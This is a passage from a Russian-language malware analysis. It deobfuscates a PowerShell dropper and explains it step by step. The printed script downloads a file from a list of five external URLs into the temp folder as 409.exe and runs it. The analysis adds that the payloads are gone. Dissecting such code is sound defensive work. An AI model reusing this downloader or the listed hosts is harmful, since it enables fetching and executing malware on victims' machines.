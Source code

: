 	}
}
$dnmjiq='bphqjc';
</pre>

Приведем в боле понятный вид, убрав все лишнее и переименовав переменные:
<pre>
$webClient=new-object Net.WebClient;

$URLS='http://www.hotelinone.net/IzBYbmU9N3dF8R@http://landmarkbytherivers.com/wp-includes/IXR/eiv8Zdszu1ro8@http://mail.tgeeks.co.tz/pHnj6pZbAhM7_oEO7j@http://www.phyzicia.com/o7UkdcC660mC_fD36O6wM@http://www.hosurbusiness.com/cnKgCjaDLegepf14'.Split('@');

$filenameInTempFolder=$env:temp+'\409.exe';
foreach($url in $URLS){
	try{
		$webClient.DownloadFile($url, $filenameInTempFolder);
		If ((Get-Item $filenameInTempFolder).length -ge 40000) {
			Invoke-Item $filenameInTempFolder;
			break;
		}
	} catch {
	}
}
</pre>
Очевидно, что мы скачиваем каждый файл, по очереди, по урлу, в файл 409.exe, во временную папку и запускаем. К сожалению, эти файлы уже не существуют и дальнейшей анализ невозможен.